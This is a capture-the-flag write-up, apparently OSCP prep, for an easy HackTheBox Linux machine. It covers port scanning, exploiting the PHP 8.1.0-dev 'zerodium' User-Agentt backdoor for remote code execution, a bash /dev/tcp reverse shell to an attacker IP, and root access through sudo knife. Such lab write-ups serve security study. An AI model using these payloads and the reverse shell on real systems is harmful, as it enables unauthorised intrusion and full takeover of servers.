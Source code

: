 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.242
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.242
```

---

## 🖼️ Web Enumeration
```bash
# Server response shows:
# X-Powered-By: PHP/8.1.0-dev

# Directory fuzzing:
feroxbuster -u http://10.10.10.242 -o scans/feroxbuster-root-php
```

---

## ⚔️ [PHP Backdoor RCE (CVE-2021-XXXXX)](HTTP.md)
```http
# Send request with User-Agentt: zerodium
# PHP code in header gets executed.

GET / HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system('id');
```

---

## 🚀 Reverse Shell
```bash
# On attacker machine:
nc -lnvp 443

# In Burp / curl:
User-Agentt: zerodium system('bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1"');
```

### Shell Upgrade
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🔎 Enumeration (as james)
```bash
whoami
hostname
sudo -l
```

---

## 🔒 Privilege Escalation via `knife`
```bash
# Check sudo rights:
sudo -l
# Output: (root) NOPASSWD: /usr/bin/knife
```

### Method 1: GTFObins - `knife exec`
```bash
sudo knife exec -E "exec '/bin/bash'"
```

### Method 2: Vim Escape
```bash
sudo knife data bag create test output -e vim
# In vim: :!/bin/bash
```

---

## ✅ Flags
```bash
cat /home/james/user.txt
cat /root/root.txt
```

---

## 📋 Resources
- [PHP Backdoor Info](https://news-web.php.net/php.internals/113838)
- [GTFObins - knife](https://gtfobins.github.io/gtfobins/knife/)
- [PHP 8.1.0-dev CVE Threads](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-insert-secret-backdoor-to-php-source-code/)

